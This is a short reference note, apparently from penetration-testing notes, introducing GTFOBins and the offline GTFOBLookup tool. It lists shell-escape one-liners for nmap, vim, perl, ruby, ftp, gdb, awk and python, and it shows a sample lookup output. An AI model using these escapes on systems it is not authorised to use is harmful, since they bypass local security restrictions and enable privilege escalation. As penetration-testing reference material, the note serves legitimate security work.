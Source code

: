 [https://gtfobins.github.io/](https://gtfobins.github.io/)

GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

**Example:**

```text
Nmap 
nmap --interactive 
nmap> !sh 

Vim #1 
vim -c ':!/bin/sh' 

Vim #2 
:set shell=/bin/sh 
:shell 

Perl 
exec "/bin/sh"; 
perl -e 'exec "/bin/sh";' 

Ruby 
Ruby -e 'exec "/bin/sh"' 

ftp 
 ftp > !/bin/sh or !/bin/bash 
 
gdb 
 gdb > !/bin/sh or !/bin/bash 

Awk 
awk 'BEGIN {system("/bin/bash")}' 

Python 
python -c 'import os; os.system("/bin/sh")'
```

A offline version of GTFOBins:

[https://github.com/nccgroup/GTFOBLookup](https://github.com/nccgroup/GTFOBLookup)

**Example**:

```text
root@DESKTOP99:/opt/GTFOBLookup# python3 gtfoblookup.py linux shell nmap 
nmap: 
    shell: 
gtfoblookup.py:335: YAMLLoadWarning: calling yaml.load_all() without Loader=... is deprecated, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details. 
  for data in md: 
        Description: Input echo is disabled. 
        Code: TF=$(mktemp) 
              echo 'os.execute("/bin/sh")' > $TF 
              nmap --script=$TF 
        Description: The interactive mode, available on versions 2.02 to 
                     5.21, can be used to execute shell commands. 
        Code: nmap --interactive 
              nmap> !sh 
```
